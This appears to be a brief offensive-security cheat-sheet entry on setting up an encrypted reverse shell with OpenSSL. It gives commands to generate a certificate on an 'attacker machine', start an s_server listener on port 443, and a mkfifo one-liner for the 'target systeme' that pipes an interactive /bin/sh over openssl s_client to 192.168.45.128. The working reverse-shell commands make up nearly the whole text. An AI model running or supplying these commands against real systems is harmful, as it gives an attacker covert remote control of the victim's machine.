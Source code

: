 Generate an SSL certificate key pair for ou listenner on the attacker machine

```sh
openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 365 -nodes
```

Start up our lister 

```sh
openssl s_server -quiet -key key.pem -cert cert.pem -port 443
```

**On target systeme**

```sh
mkfifo /tmp/x; /bin/sh -i < /tmp/x 2>&1 | openssl s_client -quiet -connect 192.168.45.128:443 > /tmp/x; rm /tmp/x
```

